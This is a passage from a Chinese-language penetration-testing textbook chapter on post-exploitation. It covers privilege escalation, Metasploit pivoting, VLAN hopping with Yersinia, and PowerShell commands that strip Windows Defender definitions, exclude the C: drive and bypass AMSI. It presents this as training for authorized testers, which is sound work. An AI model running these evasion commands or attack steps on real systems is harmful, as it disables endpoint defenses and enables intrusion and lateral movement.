获取用户凭据以访问系统只是渗透测试中获得访问权限阶段的一部分。但是，请记住，并非所有用户帐户都具有**root**或**管理员**权限。因此，远程访问具有非根或标准用户帐户的系统将阻止您执行某些应用程序并在受害者系统上执行管理任务。

可以使用各种技术来升级权限，包括以下内容：

+   从 Windows 的 SAM 文件中获取信息

+   从 Linux 上的`passwd`文件中检索数据

+   利用系统上运行进程的弱权限

+   获取存储在网络文件共享上的敏感信息

+   在用户与网络上的另一设备通信时，捕获用户密码的哈希值。

SAM 和 passwd 文件中的信息包含用户的用户名和密码的哈希值。使用密码破解技术，您将能够检索用户帐户的明文密码，然后可以使用这些密码访问设备。获取管理员或 root 帐户将为您提供对系统的无限制访问。

拥有标准用户帐户的系统访问权限意味着我们可以执行本地特权升级漏洞利用来获取管理员或根级别的访问权限。

Exploit-DB ([`www.exploit-db.com/`](https://www.exploit-db.com/))提供了一个用于多种目的的大型漏洞利用库；使用 Exploit-DB 网站上的搜索功能来发现特权升级漏洞利用：


在之前的章节中，我们演示了使用 Metasploit 成功利用目标并获取访问权限的技术。**Meterpreter**组件提供了`getsystem`命令，它尝试在目标系统上提升权限，如下面的截图所示。仔细看：你会看到我们能够在受害机上获得`nt authority\system`权限。这是最高级别的访问权限：


在我们的 Meterpreter shell 中，我们可以使用`shell`命令来获取受害机器的 Windows 命令提示符，以验证我们在受害机器上的权限级别。

始终确保通过检查 Exploit-DB ([www.exploit-db.com](http://www.exploit-db.com))和通用漏洞和暴露 ([`cve.mitre.org/`](https://cve.mitre.org/)) 数据库来进行关于目标漏洞的广泛研究，以帮助你获取访问权限和提升用户权限的漏洞利用。在下一节中，我们将深入研究横向移动。

# 横向移动策略

横向移动允许攻击者将所有攻击通过一个受损的机器转移到组织内的其他子网。让我们想象一下，你正在对客户的网络进行渗透测试。他们的组织包含多个子网，但他们没有告诉你实际存在的网络数量。所以，你开始扫描网络以寻找活动主机和漏洞，并发现拓扑结构。

你已经发现并映射了整个`10.10.10.0/24`网络，并开始尽可能多地利用机器。然而，在你的利用阶段，你注意到了一个特定受害机器上的有趣的东西，并且在 Meterpreter shell 上，你执行`ipconfig`命令来查看受害机器上的 IP 配置：


在我们的情景中，`Interface 11`连接到与攻击者机器相同的子网，而`Interface 18`连接到另一个网络。在某些情况下，如果你尝试访问另一个子网，路由器或防火墙可能会配置为出于安全目的限制不同子网之间的访问。

为了绕过安全设备和网络访问控制，应该使用**横向移动**（枢轴）技术。作为攻击者，我们可以尝试妥协连接并在组织内其他子网上受信任的机器。一旦我们建立了枢轴或横向移动，所有我们的攻击将被发送通过受害机器并转发到新的目标网络，如下面的截图所示：


要使用 Metasploit 执行横向移动，请遵循以下说明：

1.  在 Meterpreter 上使用`arp`命令将显示 ARP 缓存。在下面的截图中，有两个不同的网络连接到我们的受害机：


1.  要启用横向移动，在 Meterpreter 中执行`run post/multi/manage/autoroute`命令，如下面的截图所示：


这将添加一个路由到附加网络，并允许你的攻击者机器将所有攻击发送到受害机器（`10.10.10.23`）并转发到`10.10.11.0/24`网络。

1.  为了测试横向移动（枢纽），我们可以尝试从攻击者机器上对`10.10.11.0/24`网络执行 NetBIOS 扫描：

！[](img/cb1ddc8e-9afa-4c48-9bc9-b926fcb80922.png)

以下结果证明我们的攻击者机器能够对另一个子网执行扫描和攻击：

！[](img/b6b72db3-be18-457f-b3a5-d656cb91d5c3.png)

1.  此外，在目标上执行 TCP 端口扫描已经证明是成功的，因为所有攻击都是通过`10.10.10.23`机器发送的：

！[](img/dfeeee96-449b-4629-941b-6b24def7a7af.png)

然后我们可以针对新的子网。

在渗透测试期间，我们可能被要求发现隐藏或远程网络。对于您已经访问的每个系统，请务必检查受害者机器上的 ARP 缓存，并尝试在整个网络中执行横向移动。

在下一节中，我们将介绍如何使用 PowerShell 禁用 Windows Defender。

# PowerShell 技巧

PowerShell 是建立在.NET 上的命令行脚本语言。IT 专业人员可以使用 PowerShell 自动化许多任务并更好地管理他们的操作系统。Windows、Linux 和 macOS 都支持 PowerShell。

在下一节中，我们将深入学习如何使用 PowerShell 删除 Windows Defender 病毒定义。

# 删除 Windows Defender 病毒定义

在所有现代版本的 Microsoft Windows 中，Microsoft 都将**Windows Defender**作为本机防恶意软件保护。有许多家庭用户和组织在终端设备上使用 Windows Defender 作为首选的防恶意软件解决方案。作为渗透测试人员，在渗透测试期间不被检测到非常重要，因为您的行动旨在模拟真实世界的攻击。

以下 PowerShell 脚本将从 Windows Defender 中删除所有病毒定义：

```
"c:\program files\windows defender\mpcmdrun.exe" -RemoveDefinitions -All Set-MpPreference -DisablelOAVProtection $true
```

以下屏幕截图显示了在 Windows 10 机器上成功执行前述脚本的输出：

！[](img/8780f8af-a73f-474d-a22b-9a1c6201315c.png)

此外，查看 Windows Defender 版本信息；我们可以看到所有定义都已被删除：

！[](img/4bb8d48c-d2aa-4803-901b-79519a0f6571.png)

可能会有 Windows Defender 重新启用的情况。使用以下脚本将`C:\`路径添加到 Windows Defender 排除列表中：

```
powershell Add-MpPreference -ExclusionPath "c:\"
```

以下屏幕截图演示了如何成功执行脚本：

！[](img/313b6e31-26d8-4c91-9608-7edaa7c392e9.png)

这种技术将允许我们在受害者的 Windows 机器的`C:`驱动器上执行恶意代码。

现在您已经学会了如何从 Windows Defender 中删除病毒定义，我们现在将介绍如何禁用 Windows **防恶意软件扫描接口**（**AMSI**）。

# 禁用 Windows 防恶意软件扫描接口

Microsoft 在最近的 Windows 版本中包含了其 AMSI，以防止在本地系统上执行任何恶意代码。如果您正在破坏 Windows 操作系统，执行 PowerShell 脚本可能非常有帮助，但 AMSI 将阻止任何恶意行为。要禁用 AMSI，请执行以下 PowerShell 脚本：

```
"[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsilnitFailed','NonPublic,Static').SetValue($null,$true)"
```

以下屏幕截图显示了在 Windows 10 操作系统上成功执行脚本：

！[](img/8a51a46a-4c8b-4c4b-bf92-9fa263c44631.png)

此时，您可以在受害者的 Windows 机器上运行几乎任何恶意代码。

本节假定您已经破坏了企业网络上的 Windows 操作系统。在下一节中，我们将简要讨论 IT 行业中许多网络管理员忽视的常见漏洞：VLAN 跳跃。

# 启动 VLAN 跳跃攻击

组织通常实施**虚拟局域网**（**VLANs**）来分割和改善其网络基础设施的性能，同时提高安全性。在配置 VLAN 时，我们关注的是两个主要端口：访问端口和干线端口。

访问端口是配置为将终端设备连接到交换机的端口。这些端口只允许一个数据 VLAN 和一个额外的语音 VLAN。在配置访问端口时，VLAN ID 通常被静态配置为交换机上的访问端口。

要使多个 VLAN 在网络上通信，需要在交换机之间配置干线端口。干线端口允许多个 VLAN 同时传输流量。干线端口在交换机之间配置，并在交换机和路由器之间配置，以实现 VLAN 间路由，允许一个 VLAN 与另一个 VLAN 通信。

许多时候，IT 专业人员没有正确配置网络设备。渗透测试人员可以利用这个漏洞，并尝试执行 VLAN 跳跃攻击。一旦成功，攻击者的机器将能够访问所有可用的 VLAN，并执行 MITM 攻击。以下图表显示了一个成功启用未经授权的干线的攻击者：



在 Kali Linux 上，**Yersinia**允许攻击者对网络执行各种类型的第二层攻击，以利用安全配置错误和弱点。要打开 yersinia，请执行以下命令：

```
yersinia -G
```

图形用户界面将出现在您的桌面上。要启动 VLAN 跳跃攻击，请执行以下步骤：

1.  点击**启动攻击**按钮。

1.  将会出现一个新窗口。点击**DTP**选项卡，并选择**启用干线**单选按钮，如下图所示：


1.  当您准备好时，点击确定开始在网络上执行**VLAN 跳跃**攻击。

完成本节后，您现在能够使用 Kali Linux 执行 VLAN 跳跃攻击。

# 总结

在本章的过程中，您已经学习了内部网络扫描、MITM 攻击、数据包分析、权限提升、使用 Meterpreter 进行横向移动、使用 PowerShell 禁用 Windows Defender 以及 VLAN 跳跃等技能。

现在您已经掌握了使用 AutoScan-Network、Zenmap 和 Netdiscover 等工具进行内部网络扫描的技能。此外，您现在能够使用 Wireshark 捕获数据包并进行数据包分析，以查看受害者的流量如何在目标网络中流动。此外，您知道如何成功执行连接后攻击，如横向移动（枢纽），以及如何使用 PowerShell 禁用受害者系统上的 Windows Defender 病毒防护。

我希望本章对您的学习和职业有所帮助和启发。在第十二章中，*网络渗透测试-检测和安全*，您将学习如何检测 ARP 欺骗攻击和可疑活动，并了解一些补救技术。

# 问题

以下是基于本章内容的一些问题：

1.  可以使用什么工具访问错误配置的交换机上的多个 VLAN？

1.  Meterpreter 中可以使用哪个命令来提升权限？

1.  ARP 的目的是什么？

1.  由于 Telnet 是一种不安全的协议，在传输数据时应使用哪种其他远程访问协议以防止攻击者看到数据？

1.  在 Windows 操作系统中，如何确定当前用户权限和用户帐户的名称？

# 进一步阅读

+   **横向移动技术**：[`attack.mitre.org/tactics/TA0008/`](https://attack.mitre.org/tactics/TA0008/)

+   **Wireshark 文档**：[`www.wireshark.org/docs/`](https://www.wireshark.org/docs/)
